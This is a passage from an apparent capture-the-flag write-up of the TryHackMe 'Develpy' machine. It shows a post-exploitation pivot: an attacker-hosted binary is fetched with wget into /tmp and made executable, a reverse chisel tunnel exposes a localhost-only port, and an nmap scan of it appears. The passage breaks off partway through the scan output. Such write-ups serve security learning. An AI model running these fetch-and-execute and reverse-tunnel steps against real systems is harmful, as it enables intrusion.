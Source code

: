 We're root! :D

## king to root

In listing all listening ports via `netstat`, we can see that port 8080 is open on localhost:

```
king@ubuntu:~$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -               
```

Let's do a local port forwarding via `chisel`:

- Transfer `chisel` to the target machine:

```
┌──(root💀siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

king@ubuntu:~$ wget http://10.18.61.134/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

- Setup a server listener on port 8888:

```
┌──(root💀siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse
```

- Connect to the server listener via client mode:

```
king@ubuntu:~$ /tmp/chisel client 10.18.61.134:8888 R:8001:127.0.0.1:8080
```

- Nmap the port:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# nmap -sT -T4 -sC -sV -p8001 127.0.0.1
[...]
PORT     STATE SERVICE      VERSION
8001/tcp open  vcom-tunnel?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Mon, 05 Sep 2022 09:55:01 GMT
|     Server: WSGIServer/0.2 CPython/3.5.2
|     Content-Type: text/html
|     Content-Length: 101
|     X-Frame-Options: SAMEORIGIN
|     <h1>Not Found</h1><p>The requested URL /nice ports,/Trinity.txt.bak was not found on this server.</p>
|   GetRequest: 
|     HTTP/1.1 200 OK
[...]
```
